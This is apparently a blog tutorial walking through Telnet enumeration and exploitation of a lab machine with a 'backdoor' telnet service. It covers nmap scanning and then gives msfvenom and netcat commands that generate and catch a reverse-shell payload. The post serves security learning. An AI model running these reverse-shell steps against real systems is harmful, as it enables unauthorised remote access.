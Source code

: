 ```yaml
---
layout: single
title: Telnet Enumeration & Exploiting
excerpt: "MTelnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host."
date: 2021-08-31
classes: wide

categories:
  - Blue Team
  - infosec
  - Red Team
tags:
  - Blue Team
  - Red Team
---
```


# What is Telnet?

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

Replacement

Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.

# How does Telnet work?

The user connects to the server by using the Telnet protocol, which means entering "telnet" into a command prompt. The user then executes commands on the server by using specific Telnet commands in the Telnet prompt. You can connect to a telnet server with the following syntax: "telnet [ip] [port]"

# Connect

```
telnet 10.10.10.3 23
```

# Enumeration

We've already seen how key enumeration can be in exploiting a misconfigured network service. However, vulnerabilities that could be potentially trivial to exploit don't always jump out at us. For that reason, especially when it comes to enumerating network services, we need to be thorough in our method. 

# Port Scanning

Let's start out the same way we usually do, a port scan, to find out as much information as we can about the services, applications, structure and operating system of the target machine. Scan the machine with nmap and the tag -A and -p-.


-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one

-p- : Enables scanning across all ports, not just the top 1000

# Types of Telnet Exploit

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:

https://www.cvedetails.com/
https://cve.mitre.org/
A CVE, short for Common Vulnerabilities and Exposures, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they usually mean the CVE ID number assigned to a security flaw.

However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.

Method Breakdown

So, from our enumeration stage, we know:

    - There is a poorly hidden telnet service running on this machine

    - The service itself is marked "backdoor"

    - We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

Connecting to Telnet

You can connect to a telnet server with the following syntax:

    "telnet [ip] [port]"

We're going to need to keep this in mind as we try and exploit this machine.


What is a Reverse Shell?

![751c3a540826d5f4886979c116d95ce7.png](:/113122ea801a42a98e48450877fb6af3)
A "shell" can simply be described as a piece of code or program which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

# start listening for icmp
sudo tcpdump ip proto \\icmp -i tun0

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

msfvenom -p cmd/unix/reverse_netcat lhost=[] lport=[] R
.RUN <copypaste payload raw>
```
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

First run the netcat command to listen to our lport.
nc -lvp $lport

Then in the telnet session, run the payload generated by msfvenom earlier (basically copy/paste entire last line into the telnet session).

![b856c2593d3c477ba136f480f31b8048](https://user-images.githubusercontent.com/89842187/131560938-03eab854-bd4d-4e92-8023-81b0ae476726.png)

